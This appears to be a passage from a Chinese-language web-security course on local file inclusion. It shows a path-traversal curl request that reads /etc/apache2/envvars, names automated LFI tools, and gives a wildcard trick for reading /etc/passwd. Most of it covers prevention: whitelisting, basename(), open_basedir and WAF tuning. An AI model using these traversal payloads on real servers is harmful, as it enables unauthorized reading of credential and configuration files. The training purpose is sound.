正如我们所见，我们确实获得了默认的网站根路径和日志路径。但是，在这种情况下，日志路径使用的是全局 Apache 变量 ( `APACHE_LOG_DIR `)，该变量位于我们之前看到的另一个文件 ( `/etc/apache2/envvars` ) 中，我们可以读取该文件来查找变量值：

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

正如我们所看到的，( APACHE_LOG_DIR ) 变量被设置为 ( /var/log/apache2 )，之前的配置告诉我们日志文件是 /access.log 和 /error.log ，我们在上一节中已经访问过它们。

## LFI 工具

最后，我们可以利用一些 LFI 工具来自动化我们一直在学习的大部分流程，这在某些情况下可以节省时间，但也可能会错过许多我们原本可以通过手动测试识别的漏洞和文件。最常见的 LFI 工具是 [LFISuite](https://github.com/D35m0nd142/LFISuite) 、 [LFiFreak ](https://github.com/OsandaMalith/LFiFreak)和[ liffy ](https://github.com/mzfr/liffy)。我们也可以在 GitHub 上搜索其他各种 LFI 工具和脚本，但总的来说，大多数工具执行的任务都相同，只是成功率和准确率各不相同。

遗憾的是，这些工具大多已停止维护，并且依赖于过时的 python2 ，因此使用它们可能并非长久之计。您可以尝试下载上述任何工具，并在本模块的任何练习中测试它们的准确性。

# 预防和修复

降低文件包含漏洞最有效的方法是避免将任何用户可控的输入传递给任何文件包含函数或 API。页面应该能够在后端动态加载资源，完全无需用户交互。此外，在本模块的第一部分，我们讨论了可用于在页面中包含其他文件的不同函数，并提及了每个函数的权限。无论何时使用这些函数，我们都应确保不会直接向其中传递任何用户输入。当然，此函数列表并不完整，因此我们通常应考虑任何可以读取文件的函数。

在某些情况下，这种方案可能不具备可行性 —— 因为它可能需要修改现有 Web 应用的整体架构。对此，我们应采用「受限的用户输入白名单」机制：仅允许白名单内的用户输入，并将每个合法输入映射到对应的待加载文件；对于所有不在白名单内的输入，则统一使用默认值兜底。若针对的是已上线的现有 Web 应用，我们可先梳理出前端实际使用的所有路径并构建白名单，再基于该白名单校验用户输入。这类白名单可采用多种形式实现：比如用数据库表将 ID 与文件关联、用分支匹配脚本将名称与文件关联，甚至可使用包含 “名称 - 文件” 映射关系的静态 JSON 文件来完成匹配。

## 防止目录遍历

如果攻击者能够控制目录，他们就可以逃逸出 Web 应用程序，攻击他们更熟悉的目标，或者使用 universal attack chain 。正如我们在本模块中讨论的那样，目录遍历可能使攻击者能够执行以下任何操作：

* 读取 /etc/passwd 文件，可能会找到 SSH 密钥或有效的用户名，从而引发password spray attack密码喷洒攻击。
* 找到服务器上的其他服务，例如 Tomcat，并读取 tomcat-users.xml 文件。
* 发现有效的 PHP 会话 Cookie 并执行会话劫持
* 读取当前 Web 应用程序配置和源代码

防止目录遍历的最佳方法，是使用你所用编程语言（或框架）的内置工具，仅提取文件名部分。例如，PHP 提供了 basename() 函数 —— 该函数会解析传入的路径，且只返回其中的文件名部分：
若仅传入文件名（如 home.php），则直接返回该文件名；
若传入完整路径（如 ../lang/zh-cn/home.php），则会将最后一个 / 之后的内容视作文件名并返回。
这种方法的弊端在于：如果应用本身需要访问（进入）任意子目录，那么该需求将无法实现。

如果自行编写函数来实现这种防护逻辑，你很可能会遗漏一些特殊的边缘场景。

例如，在 Bash 终端中：
先进入你的主目录（执行 cd ~），再运行命令 cat .?/.*/.?/etc/passwd；
你会发现 Bash 允许将通配符 ? 和 * 当作 ..（目录遍历符）来解析。

接着执行 php -a 进入 PHP 命令行解释器，运行 echo file_get_contents('.?/.*/.?/etc/passwd');：
你会看到 PHP 对这些通配符的解析行为与 Bash 不同；
但如果将其中的 ? 和 * 替换为 .，这条命令就会按预期执行（成功读取 /etc/passwd）。
这一现象说明，我们前文提到的防护函数存在边缘场景漏洞：若我们的代码通过 PHP 的 system() 函数调用 Bash 执行命令，攻击者就能利用这一特性绕过目录遍历防护机制。而如果我们直接使用开发框架的原生函数（而非自行编写），这类边缘场景问题大概率已被其他开发者发现并修复，从而避免在我们的 Web 应用中被利用。

此外，我们可以清理用户输入，以递归方式删除任何遍历目录的尝试，如下所示：

```php
while(substr_count($input, '../', 0)) {
    $input = str_replace('../', '', $input);
};
```

正如我们所看到的，这段代码递归地删除了 ../ 子字符串，因此即使结果字符串包含 ../ ，它仍然会将其删除，这将阻止我们在本模块中尝试的一些绕过方法。

## Web 服务器配置

为了降低文件包含漏洞造成的影响，可以采用多种配置方法。例如，我们应该全局禁用远程文件的包含。在 PHP 中，可以通过将 `allow_url_fopen` 和 `allow_url_include` 设置为 `Off` 来实现这一点。

通常可以将 Web 应用程序锁定在其 Web 根目录，防止其访问非 Web 相关文件。如今最常见的方法是在 `Docker` 容器中运行应用程序。但是，如果 Docker 不可行，许多编程语言通常都提供了阻止访问 Web 目录之外文件的方法。在 PHP 中，可以通过在 php.ini 文件中添加 `open_basedir = /var/www` 来实现。此外，您还应该确保禁用某些潜在危险的模块，例如 [PHP Expect](https://www.php.net/manual/en/wrappers.expect.php)[ 模块 mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) 。

## Web 应用程序防火墙（WAF）

强化应用程序安全性的通用方法是使用 Web 应用程序防火墙 (WAF)，例如 ModSecurity 。在使用 WAF 时，最重要的是避免误报和阻止非恶意请求。ModSecurity 通过提供 permissive 模式来最大限度地减少误报，该模式只会报告它本应阻止的内容。这使得防御者可以调整规则，确保不会阻止任何合法请求。即使组织永远不想将 WAF 设置为“阻止模式”，仅仅将其设置为宽松模式也可以作为应用程序遭受攻击的早期预警信号。

重要的是要理解，系统加固的目标并非使系统完全无法被黑客攻击，这意味着即使系统已经加固，也不能忽视日志监控，因为加固后的系统看起来“安全”。加固后的系统应该持续进行测试，尤其是在与系统相关的应用程序（例如：Apache Struts、RAILS、Django 等）发布零日漏洞之后。在大多数情况下，零日漏洞都能成功利用，但由于系统加固，它可能会生成独特的日志，从而可以确认该漏洞是否已被用于攻击系统。

# 技能评估 - 文件包含
